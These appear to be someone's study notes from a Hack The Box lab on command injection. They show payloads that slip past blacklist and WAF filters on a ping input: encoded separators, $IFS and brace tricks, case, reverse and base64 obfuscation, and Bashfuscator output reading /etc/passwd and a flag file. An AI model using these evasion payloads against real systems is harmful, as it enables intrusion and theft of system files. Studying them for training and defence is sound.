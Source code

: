 ## 
```bash!
ping -c 1 OUR_INPUT
```
If our input is not sanitized and escaped before it is used with the ping command, we may be able to inject another arbitrary command. 

---
## <span style=color:red>**Blacklisted Characters**</span>
```php!
$blacklist = ['&', '|', ';', ...SNIP...];
foreach ($blacklist as $character) {
    if (strpos($_POST['ip'], $character) !== false) {
        echo "Invalid input";
    }
}
```
### URL encoding
```go!
|    &     | %26 |     
| -------- | --- | 
|    |     | %7c |
| -------- | --- |     
| New-line | %0A |     
| -------- | --- |     
|   TAB    | %09 |    
| -------- | --- |     
|    ;     | %3b |     
```


### $
```bash!
H4ck3rxPK@htb[/htb]$ echo ${PATH}

/usr/local/bin:/usr/bin:/bin:/usr/games
```

```bash!
H4ck3rxPK@htb[/htb]$ echo ${PATH:1:3}

/us
```
## [<span style=color:red>**Payload**</span>](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#filter-bypasses)
### <span style=color:blue>Bypassing Space Filters</span>
#### Using Tabs
```bash!
%0a%09
```
#### Using $IFS
```bash!
%0a{IFS}
```
#### Using Brace Expansion
```bash!
%0a{ls,-la}
```
### <span style=color:blue>Bypassing Other Blacklisted Characters</span>
```bash!
${LS_COLORS:10:1}${IFS}

${LS_COLORS:10:1}%0A${IFS}ls${IFS}${PATH:0:1}home
```
#### Character Shifting
```bash!
H4ck3rxPK@htb[/htb]$ man ascii     # \ is on 92, before it is [ on 91
H4ck3rxPK@htb[/htb]$ echo $(tr '!-}' '"-~'<<<[)

\
```
### <span style=color:blue>Bypassing Blacklisted Commands</span>
```bash!
${IFS}c'a't${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt
```
### <span style=color:darkblue>Advanced Advanced Command Obfuscation</span>
```bash!
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
```
![](https://hackmd.io/_uploads/SyLC2boa2.png)

![](https://hackmd.io/_uploads/rydp3-oa3.png)
---

``Need to match the space in command ➔ %09(TAB) replace %20(space)``

---
### Reverse Command
```bash!
H4ck3rxPK@htb[/htb]$ echo 'whoami' | rev
imaohw
```
```bash!
H4ck3rxPK@htb[/htb]$ $(rev<<<'imaohw')
```

### Encoded Commands
```bash!
H4ck3rxPK@htb[/htb]$ echo -n 'cat /etc/passwd | grep 33' | base64

Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==
```
```bash!
H4ck3rxPK@htb[/htb]$ bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

1. ``Find encryption by myself and decryption that to escape WAF rule``
2. ``Tip: Note that we are using <<< to avoid using a pipe |, which is a filtered character.``
---
## [<span style=color:red>**Bashfuscator**](https://github.com/Bashfuscator/Bashfuscator)</span>

![](https://hackmd.io/_uploads/B1hZLV262.png)
```bash!
H4ck3rxPK@htb[/htb]$ git clone https://github.com/Bashfuscator/Bashfuscator
H4ck3rxPK@htb[/htb]$ cd Bashfuscator
H4ck3rxPK@htb[/htb]$ python3 setup.py install --user

H4ck3rxPK@htb[/htb]$ cd ./bashfuscator/bin/
H4ck3rxPK@htb[/htb]$ ./bashfuscator -h

H4ck3rxPK@htb[/htb]$ ./bashfuscator -c 'cat /etc/passwd'
[+] Mutators used: Token/ForCode -> Command/Reverse
[+] Payload:
 ${*/+27\[X\(} ...SNIP...  ${*~}   
[+] Payload size: 1664 characters

H4ck3rxPK@htb[/htb]$ ./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1

H4ck3rxPK@htb[/htb]$ bash -c 'eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"'

root:x:0:0:root:/root:/bin/bash
...SNIP...
```

## Skills Assessment Payload

#### <span style=color:red>**{COLORS_LS:10:1}Not Found**</style>
![](https://hackmd.io/_uploads/S1WPh02an.png)

#### Payload
```php!
%3b$(tr%09"[A-Z]"%09"[a-z]"<<<"WhOaMi")
```
```php!
%3b$(tr%09"[A-Z]"%09"[a-z]"<<<"LS")%09${PATH:0:1}
                                             
bin
boot
dev
etc
flag.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```
```php!
%3b$(tr%09"[A-Z]"%09"[a-z]"<<<"cAt")%09${PATH:0:1}flag.txt
```
#### Another Payload
```bash!
echo -n 'cat /flag.txt' | base64
```
```bash！
bash<<<$(base64%09-d<<<Y2F0IC9mbGFnLnR4dA==)
```